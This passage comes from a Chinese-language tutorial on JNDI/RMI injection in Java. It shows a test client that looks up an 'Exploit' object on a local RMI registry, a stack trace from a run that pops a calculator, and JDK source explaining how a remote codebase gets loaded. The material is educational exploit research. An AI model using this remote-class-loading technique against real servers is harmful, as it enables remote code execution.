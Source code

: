 ```java
        });
        System.out.println("WebServer started at 0.0.0.0:" + port);
        server.start();
    }
}
```

最后我们写一个JNDI和RMI组合使用的测试

```java
import javax.naming.InitialContext;
import javax.naming.NamingException;

public class JNDI_RMI {
    public static void main(String[] args) throws NamingException {
        InitialContext context = new InitialContext();
        Object obj = context.lookup("rmi://localhost:1099/Exploit");
        System.out.println("obj = " + obj);
    }
}
```

请求之后会输出会是一段异常代码，并且弹出了计算器，这是正常的。

```
Exception in thread "main" javax.naming.NamingException [Root exception is java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory]
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:472)
	at com.sun.jndi.rmi.registry.RegistryContext.lookup(RegistryContext.java:124)
	at com.sun.jndi.toolkit.url.GenericURLContext.lookup(GenericURLContext.java:205)
	at javax.naming.InitialContext.lookup(InitialContext.java:417)
	at cn.typesafe.jsv.fastjson.JNDI_RMI.main(JNDI_RMI.java:12)
Caused by: java.lang.ClassCastException: Exploit cannot be cast to javax.naming.spi.ObjectFactory
	at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)
	at javax.naming.spi.NamingManager.getObjectInstance(NamingManager.java:319)
	at com.sun.jndi.rmi.registry.RegistryContext.decodeObject(RegistryContext.java:464)
	... 4 more
```

我们点击进入异常堆栈提示的代码 `at javax.naming.spi.NamingManager.getObjectFactoryFromReference(NamingManager.java:163)`

```java
static ObjectFactory getObjectFactoryFromReference(
        Reference ref, String factoryName)
        throws IllegalAccessException,
        InstantiationException,
        MalformedURLException {
        Class<?> clas = null;

        // Try to use current class loader
        try {
             clas = helper.loadClass(factoryName);
        } catch (ClassNotFoundException e) {
            // ignore and continue
            // e.printStackTrace();
        }
        // All other exceptions are passed up.

        // Not in class path; try to use codebase
        String codebase;
        if (clas == null &&
                (codebase = ref.getFactoryClassLocation()) != null) {
            try {
                clas = helper.loadClass(factoryName, codebase);
            } catch (ClassNotFoundException e) {
            }
```